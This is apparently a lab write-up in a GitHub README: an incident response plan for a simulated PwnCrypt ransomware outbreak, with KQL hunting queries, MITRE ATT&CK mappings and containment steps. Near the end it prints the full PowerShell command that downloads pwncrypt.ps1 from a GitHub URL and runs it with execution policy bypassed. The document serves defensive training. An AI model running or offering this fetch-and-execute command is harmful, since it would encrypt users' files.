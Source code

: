 
---

## **🎯 Incident Response Plan: Zero-Day Ransomware (PwnCrypt) Outbreak**  

![image (11)](https://github.com/user-attachments/assets/abe54490-9d72-416b-8e9c-ac8746484da3)

### **Scenario**  
A new ransomware strain, **PwnCrypt**, has emerged. It utilizes a PowerShell-based payload to encrypt files, appending `.pwncrypt` to filenames (e.g., `hello.txt → hello.pwncrypt.txt`). The payload is downloaded using `Invoke-WebRequest` via PowerShell and targets specific directories like `C:\Users\Public\Desktop`. The CISO has raised concerns, and immediate investigation is required.  
 
## Platforms and Languages Leveraged
- Microsoft Sentinel
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
---

### **1️⃣ Preparation**  
📌 **Goal:** Develop a hypothesis based on threat intelligence and organizational gaps.  
- The organization's immature security program (e.g., no user training) may have allowed ransomware into the network.  
- Use known IoCs, such as `.pwncrypt` file extensions, to guide the investigation.  

🔎 **Hypothesis:** Could PwnCrypt have spread laterally across the network?  

---

### **2️⃣ Data Collection**  
📌 **Goal:** Gather logs and evidence from endpoints, file systems, and network traffic.  

#### 🖥️ **Suspicious PowerShell Command Query:** 
```kql
DeviceFileEvents
| top 20 by Timestamp desc
```
```kql
DeviceNetworkEvents
| top 20 by Timestamp desc
```
```kql
DeviceProcessEvents
| top 20 by Timestamp desc
```

```kql
DeviceProcessEvents
| where ProcessCommandLine has "Invoke-WebRequest" and ProcessCommandLine has "pwncrypt.ps1"
| project Timestamp, DeviceName, InitiatingProcessParentFileName, ProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 112931](https://github.com/user-attachments/assets/726cfa16-8617-410e-9805-c316b01a0606)


#### 🔄 **Trace Ransomware Execution:**  
```kql
DeviceProcessEvents
| where ProcessCommandLine has "C:\\programdata\\pwncrypt.ps1" or FileName == "powershell.exe"
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine, AccountName, InitiatingProcessAccountName
```
![Screenshot 2025-01-09 112245](https://github.com/user-attachments/assets/d657757a-28a1-491e-a246-d94b0f720ea0)

#### 🌐 **Outbound Network Activity:**  
```kql
DeviceNetworkEvents
| where RemoteUrl has "githubusercontent.com"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, InitiatingProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 114155](https://github.com/user-attachments/assets/3dad1d63-ddbf-4790-a3b4-e8853f253314)

---

### **3️⃣ Data Analysis**  
📌 **Goal:** Examine data for anomalies, patterns, and IoCs.  

🛑 **Indicators Found:**  
- **PowerShell Usage:** Execution of `pwncrypt.ps1` via `Invoke-WebRequest`.  
- **Outbound Traffic:** Connection to GitHub for payload download.  
- **File Events:** Creation of `.pwncrypt` files in user directories.  

🧠 **TTPs Mapped to MITRE ATT&CK Framework:**  
- **T1059.001**: Command and Scripting Interpreter (PowerShell).  
- **T1486**: Data Encrypted for Impact (Ransomware).  
- **T1105**: Ingress Tool Transfer (Downloading payloads).  
- **T1547**: Boot/Logon Autostart Execution (Persistence).  

---

### **4️⃣ Investigation**  
📌 **Goal:** Deep dive into findings and assess the threat's scope.  

#### 🔍 **Steps:**  
1. Check **DeviceFileEvents** for `.pwncrypt` file creation.  
2. Investigate process lineage in **DeviceProcessEvents** to identify the initial infection vector.  
3. Analyze account activity for potential compromise.  

---

### **5️⃣ Response**  
📌 **Goal:** Contain and mitigate confirmed threats.  

#### 🛡️ **Containment:**  
- 🚫 Disconnect affected devices from the network.  
- 🧱 Block known malicious IPs and domains.  

#### 🧹 **Eradication:**  
- Remove `pwncrypt.ps1` and terminate related processes.  
- Scan endpoints for persistence mechanisms (e.g., scheduled tasks).  

#### 🔄 **Recovery:**  
- Restore data from **clean backups**.  
- Verify integrity of restored systems.  

---

### **6️⃣ Documentation**  
📌 **Goal:** Record findings and actions taken.  

🗒️ **What to Document:**  
- Timeline of events.  
- IoCs identified (e.g., `.pwncrypt` files, GitHub URLs).  
- Steps for containment, eradication, and recovery.  
- Gaps in security posture and recommendations for improvement.  

---

### **7️⃣ Improvement**  
📌 **Goal:** Enhance the organization’s defenses against future incidents.  

#### 🚀 **Action Plan:**  
1. Deploy **endpoint protection policies**.  
2. Implement **user training** to identify phishing attempts.  
3. Strengthen **logging and monitoring** to detect suspicious behavior earlier.  

---

### **Ransomware Command Snapshot**  
⚠️ Example of how the ransomware script was executed:  
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

📅 **Incident Start Time:**  
- **Date:** Jan 09, 2025  
- **Time:** 9:45 AM  
- **IP:** 185.199.111.133  

---
